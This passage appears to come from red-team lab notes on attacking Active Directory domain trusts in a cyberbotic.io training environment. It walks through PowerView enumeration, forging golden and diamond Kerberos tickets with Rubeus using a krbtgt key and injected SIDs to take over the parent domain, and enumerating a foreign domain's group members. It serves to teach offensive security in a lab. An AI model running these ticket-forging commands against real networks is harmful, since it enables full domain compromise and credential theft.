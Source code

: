    powershell Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid
    
    powershell Get-DomainController -Domain cyberbotic.io | select Name

Create the golden ticket with Rubeus.

    PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /sids:S-1-5-21-2594061375-675613155-814674916-512 /nowrap

Then import it into a logon session and use it to access the domain controller in the parent.

    run klist
    
    ls \\dc-1.cyberbotic.io\c$

### Diamond Ticket

The Rubeus diamond command also has a /sids parameter, with which we can supply the extra SIDs we want in our ticket.

    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:S-1-5-21-2594061375-675613155-814674916-519 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap

If dev.cyberbotic.io also had a child (e.g. test.dev.cyberbotic.io), then a DA in TEST would be able to use their krbtgt to hop to DA/EA in cyberbotic.io instantly because the trusts are transitive.

There are also other means which do not require DA in the child.  For example, you can also kerberoast and ASREProast across domain trusts, which may lead to privileged credential disclosure.  Because principals in CYBER can be granted access to resources in DEV, you may find instances where they are accessing machines we have compromised.  If they interact with a machine with unconstrained delegation, we can capture their TGTs.  If they're on a machine interactively, such as RDP, we can impersonate them just like any other user.

# One-Way Inbound

dev.cyberbotic.io also has a one-way inbound trust with dev-studio.com.

    powershell Get-DomainTrust

Because the trust is inbound from our perspective, it means that principals in our domain can be granted access to resources in the foreign domain.  We can enumerate the foreign domain across the trust.

    powershell Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName

Get-DomainForeignGroupMember will enumerate any groups that contain users outside of its domain and return its members.

    powershell Get-DomainForeignGroupMember -Domain dev-studio.com

This output shows that there's a member of the domain's built-in Administrators group who is not part of dev-studio.com. The MemberName field contains a SID that can be resolved in our current domain.

    powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1120
